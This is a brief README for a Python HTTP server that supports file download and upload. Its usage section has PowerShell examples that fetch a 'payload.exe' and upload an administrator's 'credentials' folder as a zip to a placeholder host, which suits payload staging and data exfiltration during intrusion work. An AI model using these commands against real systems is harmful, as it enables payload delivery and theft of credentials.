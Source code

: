 # Multi-functions python HTTP Server
A HTTP Server for downloading or uploading file.  

![alt text](./UI.PNG)

Usage:  
Start HTTP Server  
```bash
python3 HTTP_Server.py
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...

sudo python3 HTTP_Server.py 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
Option1:  
Download or upload file using web browser  
Visit http://[host.ip]:8080

Option2:  
Download file  
`Invoke-WebRequest -Uri http://[host.ip]:8080/payload.exe -OutFile payload.exe`  
Upload file  
`Invoke-Restmethod -uri http://[host.ip]:8080/credentials.zip -Method Put -Infile C:\\users\\administrator\\desktop\\credentials`  
